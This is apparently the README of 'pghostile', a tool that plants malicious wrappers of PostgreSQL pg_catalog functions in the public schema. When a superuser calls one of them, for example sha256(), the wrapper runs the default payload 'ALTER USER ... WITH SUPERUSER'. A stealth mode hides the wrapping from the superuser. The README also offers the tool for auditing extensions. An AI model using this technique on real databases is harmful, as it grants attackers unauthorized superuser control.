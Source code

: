 # PGHOSTILE
Pghostile can make PostgreSQL an hostile environment for superusers and a nice playground for attackers.  
Pghostile is an automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.  

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.  
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.  

In a few words, pghostile searches pg_catalog for functions that can be overridden and creates a malicious wrapper of them in the public schema.  

Currently, it can identify ~230 functions/parameters combinations that can lead to privilege escalation. To give an example, the list below contains some of these functions:
```SQL
select sha256('a');
select byteaout('a');
select int4(1);
select btarraycmp(array [1, 2], array [1, 2]);
select array_position(array [1, 2], 1, 1);
select unnest(array [1, 2]);
select array_remove(array [1, 2], 1);
select array_replace(array [1, 2], 1, 1);
select varcharout('a');
select log(1);
select log10(1);
select ln(1);
select round(1);
select trunc(1);
select sqrt(1);
select pow(1, 1);
select power(1, 1);
select exp(1);
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
  -t, --track-execution
                        Track the exploit function execution
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.  
With the -T option you can disable the tests and just create the exploit functions.  
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.  
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function. There are also less chances to break execution flows that could bring us to other vulnerable points.  
The -t option enables the tracking of the execution of the exploit functions. It means that every successfull call of an exploit function is logged into a table of the current DB (pghostile.triggers). It's useful for extension analisys.  

### Example
```
pghostile.py user1 testdb -H 10.211.55.12
```
```
Starting ... 

[ * ] 332 interesting functions have been identified
[ * ] Creating test functions
[ * ] Testing functions
[ * ] Deleting test functions
[ * ] Creating exploit functions
[ * ] Done! 251 functions have been created

150 exploitable functions and params combinations have been tested!
The './out' folder contains the output
```

## PG Extension audit
Pghostile can be used to audit the security of PostgreSQL extensions:
1. Run pghostile with the '-t' option to enable execution tracking
```
pghostile.py -t user1 testdb
```
2. Run, as superuser, as many extension's queries/functions as possible
```
psql -U postgres testdb < extension_queries.sql
```
3. Check if you are superuser
```sql
SELECT rolsuper FROM pg_roles where rolname='user1';
```
4. If you are superuser, all the functions that triggered the exploit are listed in
```sql
select * from pghostile.triggers
```
